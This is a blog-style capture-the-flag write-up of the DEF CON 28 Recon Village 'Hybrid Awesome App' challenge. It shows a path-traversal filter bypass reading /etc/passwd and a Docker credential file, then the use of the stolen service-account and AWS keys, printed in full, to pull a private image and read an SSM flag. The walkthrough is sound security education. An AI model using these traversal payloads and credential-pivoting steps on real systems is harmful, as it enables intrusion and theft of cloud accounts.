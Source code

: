 ```yaml
---
layout: post
title: 'Recon Village CTF @ DC28 - Hybrid Awesome App Challenge'
date: '2020-08-10T00:00:00.000-00:00'
author: Keramas
tags: [ctf, defcon28, defconsafemode, reconvillage]
---
```


With so much content this year for Defcon 28, I placed all my focus on the Red Team Village CTF, but my teammate Altezza spent some time looking at the Recon Village CTF during some downtime on Friday and hit me up for some help with an interesting web/cloud challenge.

<img src = "/assets/images/reconvillagedc28/hybridawesomeapp.png">

The application is quite bare, and inputting anything into the box appears to do nothing, but we can see the following parameter which just smells like LFI.

```
http://159.65.106.65/index.php?file=test
```

Inspecting the source code reveals a couple of clues--namely that this application is based on a Docker image hosted on Gcloud.

```html
    <center>
        <h1>Hybrid Awesome App</h1>
        <!-- Built with love using Docker -->
        <form action="/index.php" method="GET">
            <input type="text" name="file">
        </form>

            </center>
    </body>
</html>

[SNIP]
<!-- Golden docker image hosted in gcr.io/recon-285218/recon-code -->
```

After messing around with the file parameter, it was indeed susceptible to LFI through a simple WAF/validation bypass:

```
http://159.65.106.65/index.php?file=..././..././..././..././..././..././etc/passwd
```

<img src = "/assets/images/reconvillagedc28/lfi.png">

Based on the clues in the source code, since it is not possible to retrieve the golden Docker image without authentication, it is a good bet that the LFI is the way to get this data. 

A good clue is also present on the /info.php page:

<img src = "/assets/images/reconvillagedc28/rtfm.png">

This is definitely a hint to read about GCR Docker authentication, which points to the fact that the authentication key should be in `.docker/config.json`. Looking at the `/etc/passwd` entry, we have the Automator user which is used for Ansible, GCR, and other things, so their home directory is a good candidate. Using the LFI to test this out, it was possible to retrieve the auth file.

```
http://159.65.106.65/index.php?file=..././..././..././..././..././..././home/automator/.docker/config.json
```

<img src = "/assets/images/reconvillagedc28/gcloud.png">

Now that the config.json is in our possession, it is possible to authenticate to Gcloud:

```
# gcloud auth activate-service-account --key-file config.json

Activated service account credentials for: [recon-container@recon-285218.iam.gserviceaccount.com]
```

You can then print out the token, and pass it to Docker in order to login.

```
# gcloud auth print-access-token

ya29.c.KpYB1wcWhYrCYdx32EhocOMjGFl37QzHAwsaTblYBN6IKBuuD06g7uZMf2ZZKC4q1mFBaK5NZEUlNCa4hmN4znB4UD3nk2nJbcmQwMta7mtot_F26gH1h0OYr4Gp2_9tuO4FjsJzkHWVjmkB4hjcyKZ7PvXtH1SllKRCE43gQXofzGwVGnyI1FrmO3kVAntpndVgxODMk8mO
```

```
 # docker login -u oauth2accesstoken -p "ya29.c.KpYB1wcWhYrCYdx32EhocOMjGFl37QzHAwsaTblYBN6IKBuuD06g7uZMf2ZZKC4q1mFBaK5NZEUlNCa4hmN4znB4UD3nk2nJbcmQwMta7mtot_F26gH1h0OYr4Gp2_9tuO4FjsJzkHWVjmkB4hjcyKZ7PvXtH1SllKRCE43gQXofzGwVGnyI1FrmO3kVAntpndVgxODMk8mO" https://gcr.io/recon-285218/recon-code
```

Now that we are authenticated, the Docker image can be pulled:

```
# docker pull recon-285218/recon-code
```

Hopping into the image with `docker run -it <image> sh`, there was an `app` folder containing a git repo.

Using `git log` we can see the change history which mentions env variables, which can contain keys for AWS or other key data.

```
commit 645228975ee876d1ca451e1876967648fffb5157 (HEAD -> master)
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:25:27 2020 +0200

    Final code release

commit d8d2254968636cc74bf6b0eb55c08db1d9586e1c
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:24:46 2020 +0200

    updated the codebase

commit 2db6437f13ad2a547fb4e25b4982b3e14ecc08a6
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:24:04 2020 +0200

    Added env variables

commit 0ebc9223e6d406d79870988fae77b2c7f0f5a856
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:23:08 2020 +0200

    Added docs

commit b2bfab33a39900021900b0c59e760918bc00ded2
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:23:00 2020 +0200

    Added the main code
```
Using `git diff` on the commit for the variables (2db6437f13ad2a547fb4e25b4982b3e14ecc08a6), we get a pair of AWS credentials.

```
diff --git a/.env b/.env
deleted file mode 100644
index f8b4175..0000000
--- a/.env
+++ /dev/null
@@ -1,3 +0,0 @@
-[default]
-aws_access_key_id = AKIAXMXLEAVVDDJAANDD
-aws_secret_access_key = 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
diff --git a/README.md b/README.md
index 3d7addf..0f47c02 100644
--- a/README.md
+++ b/README.md
@@ -1,3 +1,9 @@
 # Ubercool Service
 
 This is an ubercool service. Written in Golang!
```

Now taking these keys and using it with aws-cli tools, we can query AWS to determine what these credentials are for.

```
# aws sts get-caller-identity
{
    "UserId": "AIDAXMXLEAVVNPZ2QUKVR",
    "Account": "508372977002",
    "Arn": "arn:aws:iam::508372977002:user/read-param"
}
```

Looking at the "read-param" username, it's a good bet that this key pair had some kind of read privileges for parameters in AWS SSM. Taking a look at the parameters present reveals  "/prod/ctf/flag".

```
# aws ssm describe-parameters --region us-east-1
{
    "Parameters": [
        {
            "Name": "/prod/ctf/flag",
            "Type": "String",
            "LastModifiedDate": 1596816202.755,
            "LastModifiedUser": "arn:aws:iam::508372977002:user/madhuakula",
            "Version": 3,
            "Tier": "Standard",
            "Policies": [],
            "DataType": "text"
        }
    ]
}
```
A final query can then be made to read the parameter, which at long last gives the flag!

```
# aws ssm get-parameters --name /prod/ctf/flag --region us-east-1
{
    "Parameters": [
        {
            "Name": "/prod/ctf/flag",
            "Type": "String",
            "Value": "ZmxhZzp7ZGU1MzE1NmIyYWEwNzQwNmEwMjZkODQxNThlMzI2N2F9",
            "Version": 3,
            "LastModifiedDate": 1596816202.755,
            "ARN": "arn:aws:ssm:us-east-1:508372977002:parameter/prod/ctf/flag",
            "DataType": "text"
        }
    ],
    "InvalidParameters": []
}
```

```
# echo ZmxhZzp7ZGU1MzE1NmIyYWEwNzQwNmEwMjZkODQxNThlMzI2N2F9 | base64 -d
flag:{de53156b2aa07406a026d84158e3267a}
```



